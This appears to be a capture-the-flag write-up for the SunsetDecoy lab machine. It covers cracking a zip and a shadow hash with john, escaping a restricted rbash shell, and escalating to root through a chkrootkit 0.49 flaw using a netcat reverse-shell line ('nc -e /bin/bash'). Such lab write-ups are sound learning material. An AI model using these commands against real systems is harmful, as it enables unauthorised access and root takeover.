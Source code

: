 # SunsetDecoy
### Enumeration
Nmap shows only ports 22 and 80 are open. Browsing to 80, we see a zip file, which we download. When we try to unzip, we're asked for a password, so we'll crack it with `john`:

```
zip2john save.zip > zip.hash
john zip.hash
```

`john` tells us the password is `manuel`. Unzipping, we find a folder containing a number of useful files, including `shadow`, which contains a password hash for the user `296640a3b825115a47b68fc44501c828`. We crack this password using `john`, which tells us that it's `server`.

### Foothold

We can use these credentials to SSH into the server. We have an `rbash` shell, so we're unable to use a number of commands, including `cat`, despite the fact the user flag is in our home directory. There's an executable called `honeypot.decoy` that we can run. If we select option `7 Leave a note.`, we get put in `vi` (despite the fact we cannot execute `vi` ourselves). As noted on GTFObins, we can get a shell through vi using the following commands:

```
:set shell=/bin/bash
:shell
```

The alternative to this is to SSH in using the following command

```
ssh 296640a3b825115a47b68fc44501c828@192.168.57.85 -t 'bash --noprofile'
```

Even in this new shell, commands are "not found". Turns out our path just contains our home directory, so we'll update to include `/bin`:

```
export PATH=/bin:$PATH
```

### Privilege Escalation

It doesn't seem like any of the commands executed by `honeypot.decoy` are executed as `root`, except perhaps for `5`, which does an AV scan. If we can figure out what command this is actually executing, we might be able to poison the path.

We can use [pspy](https://github.com/DominicBreuker/pspy) to track what commands are being executed by the machine. `pspy` works even for unprivileged users.

Running this, we see that `chkrootkit-0.49` is being run every minute. Googling, we find there's a vulnerability. We can create an executable file in `/tmp` called `update` that will be executed with privileges by `chkrootkit`. We write the following to `/tmp/update`:

```
/bin/nc -e /bin/bash 192.168.57.85 9002
```

If we launch a netcat listener on our local machine, we'll get a connection at the start of the next minute, giving us a root shell.